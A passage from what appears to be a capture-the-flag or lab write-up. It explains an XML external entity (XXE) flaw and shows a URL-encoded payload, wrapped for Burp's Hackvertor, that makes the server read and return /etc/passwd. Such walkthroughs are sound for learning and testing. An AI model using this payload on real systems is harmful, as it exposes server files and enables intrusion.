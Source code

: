 > The point is that the server receives an XML payload from the user then parses it as is with all the strings and executes the commands in the transferred
> entities. Reads any file (or executes) on the server and returns its contents as XML back to the user.

> there is an example of **XXE payload** for vulnerability testing on **PortSwigger**:

![XXE_payload](./screenshots/XXE_payload.png)

[XXE payload](https://portswigger.net/web-security/xxe)

> I make the same message structure as in the **dontforget.bak** file. Also, I need to apply url encoding. For convenience, I use the extension
> in BurpSuite - **Hackvertor** and wrap my payload in ```<@urlencode></@urlencode>```:

```html

xml=<@urlencode><?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
</@urlencode>

```

> Result:

![passwd_file](./screenshots/passwd_file.png)

